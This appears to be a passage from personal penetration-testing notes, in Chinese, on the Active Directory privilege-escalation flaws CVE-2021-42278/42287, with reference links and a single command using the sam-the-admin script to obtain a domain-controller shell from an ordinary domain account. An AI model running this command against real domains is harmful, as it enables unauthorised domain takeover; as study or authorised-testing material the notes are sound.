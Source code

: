 ![image-20230707134826465](http://cdn.ayusummer233.top/DailyNotes/202307071348521.png)

![image-20230707134816708](http://cdn.ayusummer233.top/DailyNotes/202307071348794.png)

![image-20230707135004520](http://cdn.ayusummer233.top/DailyNotes/202307071350608.png)

![image-20230707135012984](http://cdn.ayusummer233.top/DailyNotes/202307071350068.png)


---


### 域内提权-42278/42287

> [域内提权漏洞CVE-2021-42287与CVE-2021-42278原理分析 - FreeBuf网络安全行业门户](https://www.freebuf.com/vuls/317773.html)
>
> [safebuffer/sam-the-admin: Exploiting CVE-2021-42278 and CVE-2021-42287 to impersonate DA from standard domain user --- safebuffer/sam-the-admin：利用 CVE-2021-42278 和 CVE-2021-42287 来模拟标准域用户的 DA (github.com)](https://github.com/safebuffer/sam-the-admin?tab=readme-ov-file)
>
> [eXploit – CVE-2021-42287/CVE-2021-42278 Weaponisation --- eXploit – CVE-2021-42287/CVE-2021-42278 武器化](https://exploit.ph/cve-2021-42287-cve-2021-42278-weaponisation.html)
>
> [CVE-2021-42278&42287(域控) 漏洞分析与利用 | KB-AT的博客 (kb-at-zero.github.io)](https://kb-at-zero.github.io/2021/12/19/CVE-2021-42278-42287(域控) 漏洞分析与利用/)

适用范围: 未打补丁的 Winserver, 具体可参阅上述连接, 似乎 winserver 2012  - 2022 都有覆盖

拿到一个域用户后, 保证当前 kali 主机能够连通域控主机, 使用 [safebuffer/sam-the-admin](https://github.com/safebuffer/sam-the-admin?tab=readme-ov-file) 中的脚本来 getshell

```bash
python sam_the_admin.py "域/用户:密码" -dc-ip [域控ip] -shell
```

![image-20231019165850749](http://cdn.ayusummer233.top/DailyNotes/202310191658100.png)

> PS: Python 3.11 安装 `impacket==0.9.24` 会出错, 建议使用 Python3.10

---



